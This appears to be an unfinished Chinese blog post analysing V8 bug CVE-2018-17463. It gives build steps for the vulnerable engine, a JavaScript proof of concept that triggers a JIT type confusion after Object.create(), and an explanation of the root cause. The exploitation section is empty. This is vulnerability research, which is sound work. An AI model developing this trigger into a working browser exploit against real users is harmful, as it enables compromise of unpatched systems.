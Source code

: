 ```yaml
---
layout:     post
title:      "V8引擎CVE-2018-17463漏洞分析（工事中）"
subtitle:   ""
date:       2019-9-4 22:30:00
author:     "GToad"
header-img: "img/android-five.png"
catalog: true
tags:
    - chrome
    - v8
    - exploit
    - cve
    - browser
---
```


> 本文为本博客V8系列第四篇。

## 漏洞基本信息

[漏洞信息页面](https://bugs.chromium.org/p/chromium/issues/detail?id=888923)
[漏洞修复代码](https://chromium.googlesource.com/v8/v8.git/+/52a9e67a477bdb67ca893c25c145ef5191976220)

根据漏洞基本信息可准备分析环境，先切换至漏洞修复前版本。
```
git checkout 568979f4d891bafec875fab20f608ff9392f4f29
gclient sync
```

对源码进行编译。
```
tools/dev/v8gen.py x64.debug
ninja -C out.gn/x64.debug d8
```

## PoC


```javascript
function check_vul(){
    function bad_create(x){
        x.a;
        Object.create(x);
        return x.b;

    }

    for (let i = 0;i < 10000; i++){
        let x = {a : 0x1234};
        x.b = 0x5678; 
        let res = bad_create(x);
        //log(res);
        if( res != 0x5678){
            console.log(i);
            console.log("CVE-2018-17463 exists in the d8");
            return;
        }

    }
    throw "bad d8 version";

}
check_vul();
```

![](/img/in-post/post-cve20165198/poc-core-dumped.png)

POC代码执行后，res的取值将会发生错误，从而导致输出“CVE-2018-17463 exists in the d8”语句。

## 漏洞成因

漏洞成因是原本分开保存的各个属性在`Object.create()`后会被整理到一个大的hash表结构里。但是JIT后的函数不知道，依旧按照最初保存在变量结构体里的偏移去取，导致下方的内存泄露。

## 漏洞利用









